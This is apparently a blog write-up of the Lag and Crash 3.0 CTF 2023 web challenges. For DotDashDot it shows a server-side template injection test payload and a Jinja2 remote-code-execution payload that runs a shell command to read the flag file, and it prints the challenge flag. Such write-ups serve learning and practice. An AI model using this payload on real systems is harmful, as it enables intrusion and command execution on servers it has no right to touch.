 ```yaml
---
title: "Lag and Crash 3.0 CTF 2023"
description: "Write-ups for the Lag and Crash 3.0 CTF 2023 challenges."
summary: "Solutions to the CTF challenges."
date: 2023-12-18
draft: false
tags: ["Web", "Crypto", "LnC", "CTF", "Forensics", "Reverse"]
---
```


------------------------

https://ctf.lagncra.sh/challenges

## Web

### DotDashDot

Description: _An ancient relic of the past... what's it doing here?_

http://dotdashdot.d.lagncra.sh

There is one comment in html source

<img width="233" alt="image" src="https://user-images.githubusercontent.com/79740895/231981877-0bf5621b-99ad-444c-8fa1-f42b2e848fcf.png">

http://dotdashdot.d.lagncra.sh/translate

<img width="475" alt="image" src="https://user-images.githubusercontent.com/79740895/231982345-cbbd17fb-bd74-4f22-97bf-d8e29d99f035.png">

It will convert our input to morse code and it is vulnerable to SSTI.

test payload: `--> {{8*8}}`

<img width="330" alt="image" src="https://user-images.githubusercontent.com/79740895/231982840-ee4dbd56-8c82-4a10-bda5-89f553eabe49.png">

Now we can use RCE payload to read flag

Payload: `-->{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /www/flag.txt').read() }}`

<img width="458" alt="image" src="https://user-images.githubusercontent.com/79740895/231983204-6f38a96f-67a4-4d83-a804-54b622a1c631.png">

```
flag: LNC2023{T3mpl4t35_4r3_c00L_bUt_d4nG3r0u5_776843}
```


### The Password

Description: _You stumble across a secret website that asks for your password..._

_thepassword.s.lagncra.sh_

flag is in the js file.
